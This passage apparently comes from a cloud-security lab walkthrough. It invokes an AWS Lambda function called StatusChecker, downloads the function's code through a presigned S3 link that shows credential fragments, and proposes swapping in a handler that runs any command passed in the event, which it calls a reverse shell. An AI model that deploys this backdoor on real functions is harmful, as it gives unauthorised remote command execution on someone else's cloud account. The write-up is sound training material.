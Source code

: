 ```bash
aws lambda invoke --function-name StatusChecker --payload '' output
{
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}
```

 We can invoke the function. Let's look at the output file. 

```bash
cat output 
{"statusCode":200,"body":"\"Under maintenance\""}
```

The function is down for maintenance. Let's try to download the source code using `get-function`. 

```bash
sudo apt install jq -y
aws lambda get-function --function-name StatusChecker | jq .Code.Location
"https://prod-04-2014-tasks.s3.us-east-1.amazonaws.com/snapshots/852948644505/StatusChecker-25e75b6f-ffe3-4010-bd63-595d3ee6d6f5?versionId=9w1g2QKj5vKG9r51ad6i4eFC7ODmKqZB&X-Amz-Security-Token=IQoJb..%3D%3D&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Date=20220411T115327Z&X-Amz-SignedHeaders=host&X-Amz-Expires=600&X-Amz-Credential=ASIA25DCYHY3UMGFTBC7%2F20220411%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Signature=4b17b737af4125c8292214a70b08b634f9e26d7d3d682fc46ea26215387876c3"
```

Opening the link downloads a zip file which contains the source code of this function. 

> Note: Simple wget does the job too.

```javascript
exports.handler = async (event) => {
    // TODO implement
    const response = {
        statusCode: 200,
        body: JSON.stringify('Under maintenance'),
    };
    return response;
};
```

This has a default template which returns `Under maintenance`. We can try to update this function code with arbitrary reverse shell to gain access to this instance. 

Save below code as `index.js` 

```javascript
var exec = require('child_process').exec;
exports.handler = function(event, context) {
    var child = exec(event.command,
        function (error, stdout, stderr) {
            var result = {
                "stdout": stdout,
                "stderr": stderr,
                "error": error
            };
            context.succeed(result);
        }
    );
}
```
